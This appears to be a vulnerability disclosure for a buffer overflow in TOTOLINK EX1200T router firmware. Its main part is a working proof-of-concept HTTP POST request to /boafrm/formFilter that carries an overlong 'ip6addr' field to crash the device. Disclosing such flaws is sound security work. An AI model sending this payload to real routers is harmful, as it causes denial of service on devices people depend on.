



# Information


**Vendor of the products:** TOTOLINK

**Vendor's website:** [TOTOLINK](https://www.totolink.net/)

**Affected products:** EX1200T

**Affected firmware version:** V4.1.2cu.5232_B20210713

**Firmware download address:** [download]([TOTOLINK]([TOTOLINK](https://www.totolink.net/home/menu/detail/menu_listtpl/download/id/148/ids/36.html))

# Overview

TOTOLINK EX1200T V4.1.2cu.5232_B20210713 router has a serious buffer overflow vulnerability. This vulnerability can be triggered through the route /boafrm/formFilter. An attacker can implement a denial of service attack by sending a malicious HTTP POST request.


# Vulnerability details

The length of the copy is not checked, which leads to overflow.






# POC

```
POST /boafrm/formFilter HTTP/1.1
Host: 192.168.0.1
User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:138.0) Gecko/20100101 Firefox/138.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 792
Origin: http://192.168.0.1
Connection: close
Referer: http://192.168.0.1/macfilter.htm
Upgrade-Insecure-Requests: 1
Priority: u=4

sessionCheck=6d71b2fbdfb9cc395774379815a49a13&mac=&enabled=1&mac_addr=&mac_addr=&mac_addr=&mac_addr=&mac_addr=&mac_addr=&comment=&save_apply=%E5%BA%94%E7%94%A8&addFilterMacFlag=1&submit-url=%2Fmacfilter.htm&ip=1&ip6addr=aaaaa&deleteSelFilterIp=2&deleteAllFilterIp=3&applyFilterIps=&addFilterIps=5&deleteSelFilterIps=6&deleteAllFilterIps=7&addFilterPort=&ip6addr=AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
```


